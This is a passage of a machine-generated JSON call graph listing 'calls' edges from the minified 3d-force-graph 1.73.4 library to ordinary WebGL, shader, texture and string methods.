"static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "drawElementsInstanced"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "drawElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiDrawElementsWEBGL"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiDrawElementsInstancedWEBGL"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getUniforms"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getUniforms"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getUniforms"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getUniforms"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getUniforms"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hasEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "allocateTextureUnit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniform1f"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniform2f"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniform2fv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniform3f"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniform3f"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniform3fv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniform4f"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniform4fv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniformMatrix2fv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniformMatrix2fv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniformMatrix3fv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniformMatrix3fv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniformMatrix4fv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniformMatrix4fv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniform1i"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniform2i"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniform2iv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniform3i"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniform3iv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniform4i"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniform4iv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniform1ui"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniform2ui"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniform2uiv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniform3ui"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniform3uiv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniform4ui"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniform4uiv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "allocateTextureUnit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniform1i"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setTexture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "allocateTextureUnit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniform1i"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setTexture3D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "allocateTextureUnit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniform1i"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setTextureCube"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "allocateTextureUnit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniform1i"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setTexture2DArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniform1fv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniform2fv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniform3fv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniform4fv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniformMatrix2fv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniformMatrix3fv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniformMatrix4fv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniform1iv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniform2iv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniform3iv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniform4iv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniform1uiv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniform2uiv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniform3uiv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniform4uiv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniform1iv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setTexture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniform1iv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setTexture3D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniform1iv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setTextureCube"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniform1iv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setTexture2DArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getProgramParameter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getActiveUniform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setOptional"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "upload"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "seqWithValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "createShader"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "shaderSource"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "compileShader"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getShaderParameter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getShaderInfoLog"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "trim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toUpperCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getShaderSource"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getPrimaries"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getPrimaries"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getLuminanceCoefficients"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "luminance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "log2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "createProgram"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "layout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getProgramInfoLog"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "trim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getShaderInfoLog"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "trim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getShaderInfoLog"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "trim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onShaderError"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getProgramParameter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "deleteShader"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "deleteShader"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getProgramParameter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getActiveAttrib"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getAttribLocation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "attachShader"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "attachShader"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindAttribLocation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindAttribLocation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "linkProgram"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getProgramParameter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "releaseStatesOfProgram"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "deleteProgram"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_getShaderStage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_getShaderStage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_getShaderCacheForMaterial"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": 